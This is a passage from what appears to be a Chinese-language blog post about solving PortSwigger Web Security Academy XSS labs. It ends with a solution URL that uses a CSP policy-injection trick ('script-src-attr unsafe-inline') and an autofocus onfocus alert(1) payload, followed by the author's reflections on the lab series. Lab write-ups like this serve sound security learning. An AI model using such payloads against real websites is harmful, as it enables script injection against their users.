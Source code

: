 
```
https://0a98004004c30aae80f921b300df004e.web-security-academy.net/?token=123;%20script-src-attr%20%27unsafe-inline%27&search=%3Cinput%20autofocus%20onfocus=alert(1)%20/%3E
```

這題算是 expert 當中蠻簡單的題目XD

## 小結

本來以為我在實戰中有找過蠻多 XSS 的漏洞，解 XSS 系列的題目應該會比較簡單，結果我還是太高估自己了...在這 30 題的過程，其實我也學到蠻多新的攻擊手法，也看了大神寫的文章，每每看到新的攻擊手法，就會覺得很讚嘆，怎麼有人這麼聰明，可以想到這些解法啊！總而言之，花了大概 2 ~ 3 天的時間把 XSS 系列的題目解完，覺得是收穫滿滿，也讓我再次意識到自己的渺小。繼續往下一個主題邁進吧！

但不得不說，最後 6 題 EXPERT 等級的，是真的蠻難的！題目不會很明確的跟你說是哪個頁面的哪個功能有 XSS 漏洞，所以需要花一點時間去研究，但 PRACTITIONER 等級的就比較親民，基本上跟著文章還有題目的介紹，都算是可以快速的定位 XSS 漏洞的注入點。這也是我覺得實戰跟刷題不一樣的地方，實戰會需要自行尋找可能的 XSS 漏洞注入點，並且利用已知的攻擊手法去測試，但刷題的話，我覺得概念會比較像是學習新的攻擊手法，即便沒有解出來也沒關係，有學到就好～

蠻開心能在累積一些實戰經驗後再來刷題，感覺跟當初在學習 [SQL Injection](./sql-injection.md) 的時候不一樣，有一點基礎再來解題，會看到不一樣的世界。

## 參考資料

- https://portswigger.net/web-security/cross-site-scripting
